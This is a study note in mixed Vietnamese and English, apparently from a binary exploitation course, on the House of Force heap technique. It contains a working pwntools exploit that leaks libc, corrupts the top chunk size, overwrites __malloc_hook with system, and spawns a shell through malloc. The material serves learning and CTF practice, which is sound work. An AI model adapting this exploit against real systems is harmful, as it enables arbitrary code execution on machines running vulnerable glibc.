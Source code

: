 # Scenery

Khi đã có được arbitrary read/write, có thể cân nhắc các target:
- GOT (nếu `partial relro`)
- hook (`__malloc_hook`,`__free_hook`...) (vẫn sử dụng được với `glibc < 2.29`)
- GOT libc, fini_array, exit_func...
# POC

This script come along with binary file in course.

Our goal is overwrite `__malloc_hook` with `system`  then when the `malloc` is called, it will execute `system` first.

```
from pwn import *

exe = ELF("./house_of_force")
libc = ELF(exe.runpath + b"/libc.so.6")
context.binary = exe

debug = lambda : gdb.attach(p, gdbscript = script)

def malloc(size, data):
	p.sendafter(b"> ", b"1")
	p.sendafter(b"size: ", f"{size}".encode())
	if(data != b""):
		p.sendafter(b"data: ", data)

'''
read_num in main
'''

script = '''
b *0x000000000040093E
'''

p = process("./house_of_force")

# leak libc and heap
p.recvuntil(b"puts() @ ")
libc_base = int(p.recvline(), 16) - libc.symbols['puts']
p.recvuntil(b"heap @ ")
top_chunk = int(p.recvline(), 16) + 0x20

#debug()
# overwrite top chunk with -1
malloc(0x18, b"A" * 0x18 + p64(0xffffffffffffffff))

# malloc large size to fill the gap
__malloc_hook = libc_base + libc.symbols['__malloc_hook']
bridge = ((__malloc_hook) - top_chunk - 8) - 0x10
malloc(bridge, b"A")

# malloc to target, overwrite with system
system = libc_base + libc.symbols['system']
malloc(0x18, p64(system))

# trigger
binsh = libc_base + list(libc.search(b"/bin/sh\x00"))[0]
malloc(binsh, b"")

p.interactive()
```

# Idea

The same way with already said in `arbitrary_read_write`. But this time we overwrite `__malloc_hook` with `system`.

![](attachments/image04.png)

Then we pass the size equal to value of `"/bin/sh"` address, next time `malloc(size)`, program will call `system("/bin/sh")`.

![](attachments/image05.png)